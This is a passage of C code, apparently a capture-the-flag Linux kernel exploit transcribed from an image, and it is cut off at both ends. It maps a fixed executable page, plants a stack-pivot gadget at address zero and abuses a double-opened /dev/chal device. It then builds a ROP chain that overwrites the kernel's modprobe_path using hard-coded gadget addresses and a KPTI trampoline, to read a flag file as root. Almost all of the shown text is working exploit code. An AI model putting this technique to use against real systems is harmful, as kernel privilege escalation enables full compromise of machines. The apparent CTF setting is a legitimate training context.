 ```c
    system("cat /home/user/flag");

    exit(0);
}

unsigned long user_cs, user_ss, user_rflags, user_sp;

unsigned long user_rip = (unsigned long)sigsegv_handler;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

int main (int argc, char* argv[]) {
    signal(SIGSEGV, sigsegv_handler);

    char* addr2 = mmap((void*)0x39e88000-0xc000, 0x10000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0x0 );
    char* addr = mmap(0x0, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0x0);

    
    *(unsigned long*)0x0=0xffffffff81037fbf; //0xffffffff81037fbf: mov esp, 0x39e8825b; ret;

    int fd1 = open("/dev/chal", 0x2);
    int fd2 = open("/dev/chal", 0x2);

    assert(fd1 != -1);
    assert(fd2 != -1);

    close(fd2);
    
    save_state();

    unsigned long* arr = (unsigned long*)0x39e8825b;

    // gadgets:
    // 0xffffffff813089e2: mov qword ptr [rsi], rcx ; add bl, ch ; ret
    // 0xffffffff81ae90ce: pop rsi; ret 
    // 0x61616e77702f7265: pop rcx; ret

    unsigned long modprobe = 0xffffffff82ed18c0 ;
    unsigned long kpti_trampoline = 0xffffffff81e0191e;
    unsigned long poprsi = 0xffffffff81ae90ce;
    unsigned long poprcx = 0xffffffff81d08613;
    unsigned long mov = 0xffffffff813089e2;
    size_t off = 0;
    
    arr[off++] = poprsi;
    arr[off++] = modprobe;
    arr[off++] = poprcx;
    arr[off++] = 0x73752f656d6f682f; // /home/us   
    arr[off++] = mov;
    
```
